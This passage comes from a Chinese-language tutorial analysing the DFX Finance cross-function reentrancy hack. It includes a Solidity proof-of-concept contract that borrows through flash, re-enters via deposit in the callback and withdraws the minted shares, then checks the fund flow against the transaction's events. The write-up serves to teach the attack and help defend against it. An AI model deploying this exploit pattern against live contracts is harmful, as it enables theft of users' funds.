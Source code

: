   对整个攻击流程进行梳理，它的步骤为  
  1.提前准备一些USDC,XIDR代币
  2.调用viewDeposit函数，获取后续deposit操作所需要的代币数量   
  3.根据上一步获取的数值，调用被攻击合约的flash函数获取USDC,XIDR代币  
  4.在flash函数中的回调中，调用被攻击合约的deposit函数，将USDC,XIDR代币发送回给被攻击合约，完成重入  
  5.由于上一步进行了deposit操作，直接调用被攻击合约的withdraw函数取走代币  

  完成整个POC代码：  
    ```solidity
  contract EXP {
      uint256 amount;
      function testExploit() public{
        uint[] memory XIDR_USDC = new uint[](2);
        XIDR_USDC[0] = 0;
        XIDR_USDC[1] = 0;
        ( , XIDR_USDC) = dfx.viewDeposit(200_000 * 1e18);
        dfx.flash(address(this), XIDR_USDC[0] * 995 / 1000, XIDR_USDC[1] * 995 / 1000, new bytes(1)); // 5% fee
        dfx.withdraw(amount, block.timestamp + 60);
    }

      function flashCallback(uint256 fee0, uint256 fee1, bytes calldata data) external{
        (amount, ) = dfx.deposit(200_000 * 1e18, block.timestamp + 60);
    }
  }
  ```
  
  更为详细完整的代码在DefiHackLabs库中：[DFX_exp.sol](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/DFX_exp.sol)
  
- 验证Fund flow  
  这时，我们可以通过攻击交易中代币发出的事件来对之前资金流动图进行验证
  
  ![image](https://user-images.githubusercontent.com/53768199/215331469-e1edd9b4-5147-4f82-9e38-64edce3cc91f.png)

  deposit函数执行过程中最后发出的事件验证之前dfx-xidr-v2的代币从0地址被铸造给攻击者
  
  ![image](https://user-images.githubusercontent.com/53768199/215331545-9730e5b0-564d-45d8-b169-3b7c8651962f.png)

  flash函数执行过程中最后USDC，XIDR的转移事件(闪电贷手续费收取)对应DFX Finance多签钱包收到一些USDC,XIDR代币
  
  ![image](https://user-images.githubusercontent.com/53768199/215331819-d80a1775-4056-4ddd-9083-6f5241d07213.png)

  withdraw函数执行过程中最后发出的事件对应之前dfx-xidr-v2代币发送给0地址销毁
  
- 总结  
  DFX Finance的重入攻击事件是一起典型的cross-function重入攻击，攻击者通过在falsh函数的回调操作中调用deposit函数完成了重入。值得一提的是，这次攻击的手法，正好对应了CTF damnvulnerabledefi中的第四题 [Side Entrance](https://www.damnvulnerabledefi.xyz/challenges/side-entrance/)，如果项目的开发人员之前有认真做过，或许这次攻击事件就不会发生🤣。在同年的12月中，[Deforst](https://github.com/SunWeb3Sec/DeFiHackLabs#20221223---defrost---reentrancy) 项目也被同样的手法所攻击。
  
## 学习资源  
[Reentrancy Attacks on Smart Contracts Distilled](https://blog.pessimistic.io/reentrancy-attacks-on-smart-contracts-distilled-7fed3b04f4b6)  
[C.R.E.A.M. Finance Post Mortem: AMP Exploit](https://medium.com/cream-finance/c-r-e-a-m-finance-post-mortem-amp-exploit-6ceb20a630c5)  
[Cross-Contract Reentrancy Attack](https://inspexco.medium.com/cross-contract-reentrancy-attack-402d27a02a15)  
[Sherlock Yield Strategy Bug Bounty Post-Mortem](https://mirror.xyz/0xE400820f3D60d77a3EC8018d44366ed0d334f93C/LOZF1YBcH1eBdxlC6HP223cAMeTpNgQ-Kc4EjQuxmGA)  
[Decoding $220K Read-only Reentrancy Exploit | QuillAudits](https://quillaudits.medium.com/decoding-220k-read-only-reentrancy-exploit-quillaudits-30871d728ad5)  
  ```